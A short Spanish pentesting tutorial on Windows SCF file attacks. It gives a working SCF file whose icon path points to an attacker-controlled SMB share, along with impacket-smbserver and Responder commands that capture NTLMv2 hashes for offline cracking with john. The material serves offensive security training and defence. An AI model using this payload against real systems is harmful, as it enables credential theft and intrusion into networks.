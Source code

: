 # SCF File Attacks 
En el contexto de **Windows**, un archvio **SCF (Shell Command File)** es un tipo de archivo de script que contiene comandos que peuden ser ejecutados por el Explorador de Windows u otros componentes del sistema operativo. Estos archivos se utilizan para automatizar tareas relacionadas con el sistema, configuraciones y operaciones en el entorno de Windows. 

-----
# Explotación 

No es nuevo que los **SCF (Shell Command FIle)** pueden ser usados para distintas operaciones. Una de estas operaciones puede permitirle al **SCF** acceder a un path de un servicio SMB permitiendo así a los atacantes capturar el hash NTLMv2.

#### File.scf
```scf
[Shell]
Command=2
IconFile=\\{our_smb_server_ip}\{folder}\test.ico
[TaskBar]
Command=ToggleDesktop
```
Una vez creado el archivo, al momento de ser ejecutado intentará cargar un icono desde el recurso indicado, por lo que desde nuestra máquina de atacante podríamos crear un servidor SMB o estar en escucha con el **responder** con el fin de capturar el hash NTLMv2.

#### impacket-smbserver
```bash
# Crear un servidor smb para recibir la petición a la hora de ejecutar el archivo
impacket-smbserver -smb2support smbFolder $(pwd)
```
#### responder
```bash
responder -w --lm -v -I {interfaz}
```
Una vez capturado el hash, solo queda intentar crackearlo de manera ofline con herramientas como **john**.